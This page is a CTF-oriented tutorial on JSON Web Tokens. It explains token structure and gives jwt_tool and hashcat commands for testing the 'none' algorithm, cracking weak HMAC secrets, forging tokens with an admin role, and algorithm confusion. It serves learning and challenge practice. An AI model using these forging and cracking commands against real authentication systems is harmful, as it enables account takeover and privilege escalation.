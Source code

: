 ```yaml
---
title: "JSON Web Tokens (JWT)"
description: "Learn how to analyze, decode, and exploit vulnerable JSON Web Tokens used in authentication mechanisms during CTF challenges."
date: 2025-10-06
draft: false
categories: ["Web"]
tags: ["jwt", "json web token", "authentication", "web exploitation", "ctf"]
authors: ["CTF.Support Team"]
summary: "Understand JWT structure and weaknesses like 'none' algorithm or weak HMAC secrets to recover or forge valid tokens in CTF web challenges."
aliases: ["/web/jwt/"]
slug: "jwt"
toc: true
---
```


## Introduction

**JSON Web Tokens (JWT)** are compact, self‑contained authentication tokens used by web applications.
A typical token contains three Base64‑encoded parts:

```text
header.payload.signature
```

In CTFs, JWTs are frequently used for authentication puzzles where misconfiguration or weak signing keys allow you to forge or modify claims to become another user — often to escalate privileges or reveal a flag.

---

## Quick Reference

| Task                    | Command                                  |
|-------------------------|------------------------------------------|
| Decode token manually   | [https://jwt.io](https://jwt.io)         |
| Analyze & exploit token | `jwt_tool <token>`                       |
| Test “none” algorithm   | `jwt_tool -X a <token>`                  |
| Crack HMAC secret       | `jwt_tool --crack -d <wordlist> <token>` |

---

## Tools

| Tool                                                         | Purpose                                         |
|--------------------------------------------------------------|-------------------------------------------------|
| [jwt_tool](https://github.com/ticarpi/jwt_tool)              | Comprehensive JWT analysis/exploitation utility |
| [jwt.io](https://jwt.io)                                     | Web interface for decoding & verifying tokens   |
| [Hashcat](https://hashcat.net/hashcat/)                      | Brute‑force weak HMAC secrets (mode 16500: JWT) |
| [jwt‑cracker](https://github.com/brendan-rius/c-jwt-cracker) | C‑based dictionary cracker for HMAC tokens      |
| [CyberChef](https://gchq.github.io/CyberChef/)               | Convenient for Base64decode + inspection        |

---

## Structure

| Part          | Description                                                 |
|---------------|-------------------------------------------------------------|
| **Header**    | Algorithm & token type (e.g. `{"alg":"HS256","typ":"JWT"}`) |
| **Payload**   | User data & claims (`{"user":"guest","role":"user"}`)       |
| **Signature** | Verifies integrity (HMAC / RSA)                             |

Example token:

```text
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoic3R1ZGVudCIsInJvbGUiOiJ1c2VyIn0.gTZhw7xI25pUySAGfbt4h6blRC3UV1RS3u9bxTxg6z0
```

---

## Exploitation Techniques

### None Algorithm Vulnerability

If the server accepts `alg":"none"` without verifying a signature:

```bash
jwt_tool -X a <token>
```

This strips the signature and adjusts the header.

### Weak HMAC Secrets

If the algorithm is **HS256** (shared secret) and the key is weak, try cracking:

```bash
jwt_tool --crack -d rockyou.txt <token>
```

Or use Hashcat:

```bash
hashcat -m 16500 token.txt rockyou.txt
```

Once the key is discovered, sign a new token with elevated claims:

```bash
jwt_tool -S -p <secret> -I -pc "role" -pv "admin" <token>
```

### Algorithm Confusion (HS256 <> RS256)

If the server uses Asymmetric RSA but incorrectly trusts tokens signed via Symmetric HS256, replace the algorithm value and use the server’s public key as the secret to craft a valid HMAC.
